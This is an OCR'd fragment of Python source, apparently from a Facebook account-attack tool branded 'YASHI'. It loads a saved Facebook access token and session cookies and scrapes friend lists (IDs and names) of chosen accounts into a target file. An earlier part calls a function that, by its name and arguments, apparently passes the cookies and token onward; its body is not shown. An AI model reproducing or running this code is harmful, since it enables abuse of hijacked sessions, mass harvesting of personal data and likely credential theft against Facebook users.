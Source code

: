                 print(f'Total Target Found:\x1b[1;97m {len(saved)}')
                slp(2)
                sent(file,fbcokis,token)
                break
                exit('Bye Bye')
            except:
                print('ID Not Public')
                continue
    except Exception as error:
        menu()

def p_dump():
    global totaldmp,srange
    try:
        token = open('.tokn.txt','r').read()
        fbcokis = open(".cokis.txt", "r").read()
    except FileNotFoundError:
        print(f"{A}\n\t\tCookie Not Found ...{S}")
        slp(1)
        cmd('rm -rf .token.txt .cookie.txt')
        login()
    try:
        token = open('.tokn.txt','r').read()
        fbcokis = open(".cokis.txt", "r").read()
    except FileNotFoundError:
        print(f"{A}Cookie Not Found ...{S}")
        slp(1)
        cmd('rm -rf .token.txt .cookie.txt')
        login()
    try:
        clear()
        
        srange = int(input('How many IDs do you want to add?: ' ))
        clear()
        print(f'{S}File Name To Dump Ids. Example /sdcard/YASHI.txt\n') 
        filepath = input("Put File Name: ")
        apnd = open(filepath , 'a')
        clear()
        for rept in range(srange):
            rept += 1
            sid = input("[" + str(rept) + "] Put id username: ")
            if  sid=='stop':
                break
                ys.close()
            try:
                dmp = requests.get("https://graph.facebook.com/"+sid+"/friends?limit=5000&access_token="+token,cookies = {"cookie":fbcokis}).json()
                for idnm in dmp['friends']['data']:
                    totaldmp+=1
                    apnd.write(idnm['id']+"|"+idnm['name']+'\n')                      
            except KeyError:
                print(f"\n{S}ID Not Found ...");pass
            print(f'{S}Total IDs : {totaldmp}')
        apnd.close()
        print(47*'-')
        print(f"Total IDs: {totaldmp} ")
        print(f"File Saved To  {filepath} ")
        print(47*'-')
        input("Press enter to back YASHI Menu ")
        YASHI(allkey)
    except Exception as e:
        print("Error : %s"%e) 
        